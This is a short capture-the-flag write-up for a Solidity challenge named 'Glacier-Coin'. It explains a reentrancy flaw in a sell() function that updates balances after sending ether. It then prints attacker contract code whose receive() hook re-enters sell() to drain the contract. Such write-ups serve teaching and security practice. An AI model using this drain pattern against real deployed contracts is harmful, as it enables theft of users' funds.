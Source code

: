 # Glacier-Coin

The solution is a reentrancy vulnerability in the `sell()` function

```solidity
function sell(uint256 amount) public
    {
        require(balances[msg.sender] >= amount, "You can not sell this much as you are poor af");
        uint256 new_balance = balances[msg.sender] - amount;
        (msg.sender).call{value: amount}("");
        balances[msg.sender] = new_balance;
    }
```

We can reenter it with:
```solidity
function attack() external payable
    {
        require(msg.value == 10 ether);
        target.buy{value: 10 ether}();
        target.sell(10 ether);
        owner.call{value: 20 ether}("");
    }   

    receive() external payable
    {
        // Reenter
        if (address(target).balance != 0) {
            target.sell(10 ether);
        }
    }
```
See Solve.sol for the full solution
